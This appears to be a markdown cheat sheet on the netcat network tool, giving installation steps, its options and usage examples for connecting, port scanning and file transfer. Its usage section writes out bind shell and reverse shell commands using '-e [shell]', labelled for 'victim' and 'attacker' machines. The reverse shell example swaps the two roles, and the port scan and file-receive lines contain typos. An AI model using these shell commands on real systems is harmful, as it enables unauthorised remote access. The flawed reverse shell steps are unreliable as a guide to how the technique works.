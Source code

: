 # Cybersecurity Utility - netcat

## Table of Contents
- [Information](#information)
- [Setup](#setup)
- [Documentation](#documentation)
- [Resources](#resources)
- [References](#references)
- [Remarks](#remarks)
- [Notes](#notes)

## Information

+ Utility Type: Network Debugging and Exploration
+ Tool Area of Efficiency : Offensive (Red Team), Defensive (Blue Team)
+ Penetration Testing stage : Reconnaissance
+ Package Name: netcat
+ Repository URL: 

### DESCRIPTION

```
netcat - also known as 'nc', is a command-line utility for Linux used by network administrators and security experts that can read and write data across network connections using the TCP and UDP protocol.

It is designed to be a reliable "backend" tool used directly or driven by other programs via scripts.

nc is also a feature-rich network debugging and exploration tool.
```

## Setup

### Pre-Requisites


### Dependencies


### Obtaining
- Using Package Manager
	- Debian-based (apt)
		```console
		sudo apt(-get) install netcat
		```
	- Arch-based (pacman)
		```console
		sudo pacman -S netcat
		```

## Documentation

### Synopsis/Syntax

```console
nc [{options} [arguments]...] [target-ip] [port-number]
```

### Parameters
+ -e [shell] : Executes the specified shell when connected
+ -h : Display this help menu
+ -l : Start listener/server mode to connect from a remote system
+ -n : Do not do any DNS or service lookups on any specific addresses, hostnames or ports
+ -p [port-number] : Set a port number to listen through
+ -v : Verbose; Display detailed information of the standard output
+ -w [timeout] : Set connections to timeout after [timeout] seconds if cannot be established or are idle
+ -z : Specifies that nc should only scan for listening daemons, without sending any data to them; Cannot use with *-l*

### Usage
- Connect to a target on port 21
	```console
	nc 10.0.2.5 21
	```
- Connect a remote target/victim system (Bind Shell)
	- On the target/victim system
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```
	- On the attacker system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```

- Connect from a remote target/victim system (Reverse Shell)
	- On the target/victim system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```
	- On the attacker system
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```

- To transfer a file 
	- To send a file in the source machine
		```console
		nc [destination-IP-address] [listening-port-number] < [file-name]
		```
	- To receive file in the destination machine
		```console
		nc -l -v [port-to-listen] > [file-to-receive][file-to-receive]
		```

- TCP Port Scanner
	```console
	nc -v -n -z -wl [domain-name or IP address] [start_port_number-end_port_number]
	```

## Resources

## References
+ [computerhope - nc](https://www.computerhope.com/unix/nc.htm)

## Remarks

## Notes
